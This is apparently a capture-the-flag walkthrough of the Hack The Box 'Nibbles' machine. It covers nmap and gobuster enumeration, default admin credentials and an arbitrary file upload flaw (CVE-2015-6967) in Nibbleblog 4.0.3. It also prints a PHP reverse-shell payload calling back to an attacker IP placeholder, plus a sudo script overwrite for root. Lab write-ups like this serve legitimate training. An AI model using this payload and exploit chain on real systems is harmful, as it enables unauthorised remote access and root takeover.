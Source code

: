 ## HTB: Nibbles Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

---

### 🕵️ Enumeration

#### 🔍 Nmap Scan
```bash
sudo nmap -sV -sC -sS -oA scan/result $IP
```
Discovered open ports:
- **22/tcp** - [SSH](SSH)
- **80/tcp** - [HTTP](HTTP)

### 🌐 Web Enumeration
Visiting the site on port 80 reveals a PHP-based web application. View page source shows a hidden directory:

**Interesting Directory:** `/nibbleblog/`

#### 📂 Directory Fuzzing
```bash
gobuster dir --url "http://$IP/nibbleblog/" -w /usr/share/dirb/wordlists/small.txt -x php
```
Discovered:
- `/admin.php` – Admin login page

---

### 🔐 Exploitation

#### 🔑 Default Credentials & Exploit
- Found **default credentials**: `admin:nibbles`
- Confirmed to work on `/nibbleblog/admin.php`
- Vulnerable version: **Nibbleblog 4.0.3**
- Public exploit: CVE-2015-6967 – Arbitrary File Upload

#### 🐚 Reverse Shell Upload
Upload a PHP reverse shell through the **my_image** plugin:

**Payload (Replace IP and port):**
```php
<?php
// PHP Reverse Shell
$sock=fsockopen("<ATTACKER_IP>",9001);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Start listener:
```bash
nc -nlvp 9001
```

Trigger the shell:
```bash
curl http://$IP/nibbleblog/content/private/plugins/my_image/image.php
```

---

### 🧗 Privilege Escalation

#### 🔍 Finding Personal Files
Found file: `personal.zip`  
Unzipped it contains a **bash script** monitoring resources.

```bash
sudo -l
```
Shows we can run the monitoring script **as root without password**.

#### 🛠️ Modify Script
Append reverse shell code or just spawn root shell:
```bash
#!/bin/bash
bash
```
Upload and overwrite the original script. Then execute it with sudo:
```bash
sudo /path/to/monitoring_script.sh
```

### 🏁 Root Access
You now have a **root shell** on the machine.

---

### 📝 Summary
- Gained web access using default creds on Nibbleblog.
- Exploited CVE-2015-6967 to upload a reverse shell.
- Found a user-owned zip file containing a script run as root.
- Modified script to spawn a root shell.

Cheers 🥂

